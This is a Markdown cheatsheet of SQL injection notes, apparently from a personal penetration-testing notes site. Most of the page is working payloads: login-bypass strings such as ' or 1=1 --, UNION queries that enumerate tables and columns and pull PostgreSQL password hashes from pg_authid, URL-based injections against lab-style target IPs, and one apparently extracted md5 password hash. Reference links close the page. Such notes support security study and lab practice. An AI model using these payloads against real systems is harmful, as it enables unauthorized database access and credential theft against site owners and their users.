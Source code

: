 ```yaml
---
layout: post
title: SQL Injection
description: SQLi Notes
---
```

# SQL Injection Cheatsheet

Testing for Bypasses:&#x20;

```
+-------------------------------+
|	  ' or 1=1 --		|
|	tom' or 1=1 LIMIT 1;#	|
|	  a' or 1=1 --	    	|
|	  " or 1=1 --	    	|
|	  a" or 1=1 --	    	|
|	  ' or 1=1 #	    	|
|	  " or 1=1 #	    	|
|	  or 1=1 --	    	|
|	  ' or 'x'='x	    	|
|	  " or "x"="x		|
|	  ') or ('x'='x	    	|
|	  ") or ("x"="x	    	|
| ' or username LIKE '%admin%   |
+-------------------------------+
|      USERNAME:  ' or 1/*      |
|      PASSWORD:  */ =1 --      |
+-------------------------------+
|  USERNAME: admin' or '1'='1   |
|  PASSWORD: '#		    	|
+-------------------------------+
'OR 1 OR'
' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 -- -
```

## UNION Attacks:

Find number of columns by using ORDER by until you get an error for too many columns:

```
' ORDER by 1--
' ORDER by 2--
```

Find table\_names:

```
' UNION SELECT NULL,NULL,NULL,NULL,table_name from information_schema.tables--
```

Find columns:

```
'+UNION+SELECT+NULL%2CNULL%2CNULL%2CNULL%2Ccolumn_name+from+information_schema.columns+where+table_name='pg_authid'--
```

Get data we are looking for: rolname and rolpassword

```
'+UNION+SELECT+NULL%2CNULL%2CNULL%2CNULL%2Crolpassword+from+pg_authid--' 
```

postgres/md52d58e0637ec1e94cdfba3d1c26b67d01

## SQLI

Testing for a row:

* http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8

#### Get users table

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_s
chema.columns where table_name='users'
```

## Links

https://www.exploit-db.com/papers/12975

https://www.exploit-db.com/papers/13045

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md

(MSSQL) https://perspectiverisk.com/mssql-practical-injection-cheat-sheet/ https://www.exploit-db.com/docs/english/44348-error-based-sql-injection-in-order-by-clause-(mssql).pdf
